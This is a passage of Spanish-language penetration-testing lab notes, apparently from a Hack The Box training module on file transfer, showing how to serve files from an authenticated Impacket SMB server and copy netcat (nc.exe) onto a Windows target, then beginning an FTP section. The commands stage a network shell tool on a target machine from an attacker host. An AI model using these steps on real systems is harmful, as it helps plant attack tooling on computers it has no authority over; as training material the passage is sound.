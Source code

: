 ```cmd
C:\htb> copy \\192.168.220.133\share\nc.exe
You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

### Crear el Servidor SMB con un Usuario y Contraseña

Para transferir archivos en este escenario, podemos establecer un nombre de usuario y contraseña usando nuestro servidor SMB de Impacket y montar el servidor SMB en la máquina Windows objetivo:

```bash
sherlock28@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

### Montar el Servidor SMB con Usuario y Contraseña

```cmd
C:\htb> net use n: \\192.168.220.133\share /user:test test
The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.
```

> **Nota:** También puedes montar el servidor SMB si recibes un error al usar el comando `copy filename \\IP\sharename`.

## Descargas FTP

Otra forma de transferir archivos es utilizando **FTP (File Transfer Protocol)**, que utiliza los puertos **TCP/21** y **TCP/20**. Podemos usar el cliente FTP o **PowerShell Net.WebClient** para descargar archivos desde un servidor FTP.

Podemos configurar un servidor FTP en nuestro host de ataque utilizando el módulo **pyftpdlib** de Python3. Se puede instalar con el siguiente comando:

### Instalando el Módulo del Servidor FTP en Python3 - pyftpdlib

```bash
sherlock28@htb[/htb]$ sudo pip3 install pyftpdlib
```
